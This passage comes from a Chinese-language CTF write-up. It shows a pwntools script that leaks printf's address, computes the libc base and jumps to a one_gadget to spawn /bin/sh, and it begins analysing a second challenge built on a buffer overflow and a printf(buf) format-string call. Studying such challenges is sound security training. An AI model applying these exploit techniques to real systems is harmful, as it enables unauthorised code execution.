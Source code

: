 ```
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# gadget
one_gadget = 0x106ef8 #execve("/bin/sh", rsp+0x70, environ)

# elf, libc
printf_libc = libc.symbols['printf']
ru('here is the gift for u:')
printf = int(rc(14),16)
info_addr('printf',printf)
libc_base = printf-printf_libc
info_addr('libc_base', libc_base)
info_addr('one gadget', one_gadget+libc_base)
ru('gadget:')
sl(str(one_gadget+libc_base))

p.interactive()
```

## Imagin 的小秘密(secret) - TaQini
考察点：缓冲区溢出、GOT 表覆写

```
.data:000000000046D080 ; char buf[]
.data:000000000046D080 buf             db 'Y0ur_N@me',0        
.data:000000000046D080                                         
.data:000000000046D08A                 align 10h
.data:000000000046D090 times           dq offset unk_46D0C0    
.data:000000000046D090                                         
.data:000000000046D090 _data           ends
```

程序开头 read(0, buf, 0x16)，实际上 buf 大小只有 0x10，后 6 字节会覆盖 times 变量

```
void __noreturn sub_401301()
{
  puts("#====================================#");
  puts("#             GAME OVER              #");
  puts("#====================================#");
  sub_4011C2("#        BYE BYE~                    #", 18LL);
  printf(buf, 18LL);
  puts(&byte_46B0A7);
  puts("@====================================@");
  exit(0);
}
```
